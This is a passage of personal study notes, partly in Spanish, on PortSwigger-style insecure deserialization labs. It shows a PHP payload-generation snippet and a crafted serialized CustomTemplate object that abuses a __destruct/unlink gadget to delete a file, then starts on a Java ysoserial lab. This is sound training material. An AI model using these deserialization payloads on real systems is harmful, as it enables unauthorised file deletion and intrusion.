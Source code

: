 ```php
// Serializar el objeto
$payload = serialize($exploit);

// Imprimir payload en base64 para facilitar su inyección en la aplicación vulnerable
echo "Payload generado (base64):\n";
echo base64_encode($payload) . "\n";
?>
```

```js
1. Reading page `source code` and noticing comment mentioning , this _**identify**_ possible PHP framework and the Burp scanner _**identify**_ serialized session cookie object after we logged in with stolen `wiener:peter` credentials.

2. ID-LAB.net/libs/CustomTemplate.php~ //& showed
//en el codigo encontramos un fragmento interesante: 
    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
3. __destruct: → Método Magico
//Unlink se usa pa' eliminar, en resumen. 
// la cookie original decoded base64: 
	//O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ACESS_TOKEN";}
4. lock_file_path -> es la clave, es el que elimina paths porque se invoca con unlink que es el que borra como tal, un object de lock_file_path es el que vamos a crear. 
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
5. codeada a base64, la entregamos de nuevo y listo. 

```

### LAB: Java Deserialization with Java Apache CommonsCollections4 `ysoserial`

Java deserialization scanner nos puede servir para identificar cual payload para serializar incluir en nuestro ataque, porque como tal podría usar ya mi herramienta local, ya vimos que sirve.
![](Pasted%20image%2020250223212104.png)
